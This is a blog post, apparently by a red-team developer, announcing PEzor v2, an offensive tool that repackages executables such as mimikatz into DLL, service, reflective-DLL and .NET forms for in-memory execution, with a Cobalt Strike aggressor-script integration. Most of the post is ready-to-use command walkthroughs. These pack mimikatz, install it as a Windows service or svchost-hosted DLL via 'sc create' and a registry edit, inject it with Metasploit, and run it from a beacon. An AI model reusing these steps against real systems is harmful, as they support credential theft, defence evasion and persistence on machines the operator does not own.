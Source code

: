 ```yaml
---
layout: default
---
```


_**Jul 13, 2020**_

# Announcing PEzor v2 — New Output Formats and Cobalt Strike Integration

The `execute-assembly` capability of [Cobalt Strike](https://www.cobaltstrike.com/)'s beacon lets operators execute .NET assemblies without touching the disk and it's deeply influencing the recent offensive developments by pushing the community to move towards .NET and C#. But wouldn't be nice if we could [execute arbitary executables](https://iwantmore.pizza/posts/meterpreter-shellcode-inject.html) with the same ease? Let's find out how we can achieve that with [PEzor](https://iwantmore.pizza/posts/PEzor.html)!

![PEzor with Cobalt Strike](../assets/images/pezor-cobaltstrike.jpg "PEzor with Cobalt Strike")

## The Idea

[Cobalt Strike](https://www.cobaltstrike.com/) supports two techniques to execute in-memory post-ex capabilities:

1. [bdllspawn](https://www.cobaltstrike.com/aggressor-script/functions.html#bdllspawn): this function orders the beacon implant to retrieve a [reflective DLL](https://www.exploit-db.com/docs/english/13007-reflective-dll-injection.pdf) from the C2 server, create a sacrificial process, inject the payload in its memory and creating a thread to execute the exported function `ReflectiveLoader`, responsible of manually mapping the foreign DLL into target process without requiring the OS loader. In order to produce a reflective DLL from a regular one, we need to update its source code to integrate [Stephen Fewer's library](https://github.com/stephenfewer/ReflectiveDLLInjection) and compile it.
2. [bexecute_assembly](https://www.cobaltstrike.com/aggressor-script/functions.html#bexecute_assembly): this function orders the beacon implant to retrieve a .NET assembly from the C2 server, create a sacrificial process, inject a CLR hosting reflective DLL that will bootstrap the .NET runtime and pass the provided assembly to it. This technique doesn't require modification to the original source code since it can execute .NET PEs out of the box and for this reason it has been quite popular. However, we are limited to execute .NET assembly, so any native binary is a no-go if we don't want to touch the disk.

After some research, I had the idea to improve [PEzor](https://iwantmore.pizza/posts/PEzor.html) in order to be able to produce different output formats than regular PE executables: if we can automate the process of converting an existing EXE/DLL/etc to other formats such as DLLs, reflective DLLs and .NET assemblies while maintaining the original semantic intact, we could implement a new command in [Cobalt Strike](https://www.cobaltstrike.com/) that can convert on the fly arbitrary executables and task the beacon to execute it in-memory.

## New Output Formats

Currently, PEzor supports the following output formats, given an arbitrary executable or raw shellcode:

- **exe**: this is the only format that was supported by PEzor v1, that is a native binary
- **dll**: PEzor can now convert existing executables to their DLL counterpart, without requiring to recompile from the sources
- **service-exe**: it can produce a Service EXE version of the native binary, that exports required functions to be run as a system service
- **service-dll**: it can produce a Service DLL version of the native binary, that exports required functions to be run inside a `dllhost` process
- **reflective-dll**: it can produce a reflective DLL version of the native binary, that can be loaded and executed in-memory by most of the frameworks, such as [Metasploit's reflective_dll_inject](https://github.com/rapid7/metasploit-framework/blob/master//modules/post/windows/manage/reflective_dll_inject.rb) module
- **dotnet**: it can produce a .NET binary equivalent to the native one, that can be loaded and executed in-memory by most of the frameworks, such as [Metasploit's execute_dotnet_assembly](https://github.com/rapid7/metasploit-framework/blob/master/modules/post/windows/manage/execute_dotnet_assembly.rb) module

## Examples

Let's see how we can generate and execute the new formats.

- **exe**
```
# generate
$ PEzor -format=exe mimikatz.exe -z 2 -p '"token::whoami" "exit"'

# execute
C:> .\mimikatz.exe.packed.exe
```

- **dll**
```
# generate
$ PEzor -format=dll mimikatz.exe -z 2 -p '"token::whoami" "exit"'

# execute
C:> rundll32 .\mimikatz.exe.packed.dll,DllMain
```

- **service-exe**  
```
# generate
$ PEzor -format=service-exe mimikatz.exe -z 2 -p '"log C:/Users/Public/mimi.out" "coffee" "exit"'

# execute
C:\Users\Public> sc create mimiservice binpath= C:\Users\Public\mimikatz.exe.packed.service.exe
[SC] CreateService SUCCESS

C:\Users\Public> sc start mimiservice
SERVICE_NAME       : mimiservice
        TYPE               : 20  WIN32_OWN_PROCESS
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
        PID                : 913
        FLAGS              : 0x0
```

- **service-dll**
```
# generate
$ PEzor -format=service-dll mimikatz.exe -z 2 -p '"log C:/Users/Public/mimi.out" "coffee" "exit"'

# execute
C:\Users\Public> copy /y mimikatz.packed.exe.service.dll %SystemRoot%\System32\SvcHostDemo.dll
        1 file(s) copied.

C:\Users\Public> sc create SvcHostDemo binpath= ^%SystemRoot^%"\System32\svchost -k mygroup" type= share start= demand
[SC] CreateService SUCCESS

C:\Users\Public> reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SvcHost" /v mygroup /t REG_MULTI_SZ /d SvcHostDemo /f
The operation completed successfully.

C:\Users\Public> sc start SvcHostDemo
SERVICE_NAME       : SvcHostDemo
        TYPE               : 30  WIN32
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 1823
        FLAGS              : 0x0
```

- **reflective-dll**
```
# generate
$ PEzor -format=reflective-dll mimikatz.exe -z 2 -p '"coffee" "exit"'

# execute
msf5 > use post/windows/manage/reflective_dll_inject
msf5 post(windows/manage/reflective_dll_inject) > set PATH mimikatz.exe.packed.reflective.dll
msf5 post(windows/manage/reflective_dll_inject) > set WAIT 10
msf5 post(windows/manage/reflective_dll_inject) > run
```

## Cobalt Strike Integration

Now we know how to generate different outputs and manually execute them, but how can we integrate this new tool within Cobalt Strike? To have a smooth _OX_ (operator experience), I wrote an [aggressor script](https://www.cobaltstrike.com/aggressor-script/index.html) that provide a transparent command similar to `execute-assembly` that can be invoked with the same command line options of PEzor: the script will automatically launch in background PEzor to convert the provided executable to the desired format (reflective-dll and dotnet) and task the beacon to inject the reflective DLL or execute in-memory the generated .NET assembly. The script can be found [here](https://github.com/phra/PEzor/blob/master/aggressor/PEzor.cna).

```
# convert and execute reflective DLL
beacon> execute-inmemory -format=reflective-dll mimikatz.exe -z 2 -p '"coffee" "exit"'

# convert and execute .NET assembly
beacon> execute-inmemory -format=dotnet mimikatz.exe -z 2 -p '"coffee" "exit"'
```

[back](../)
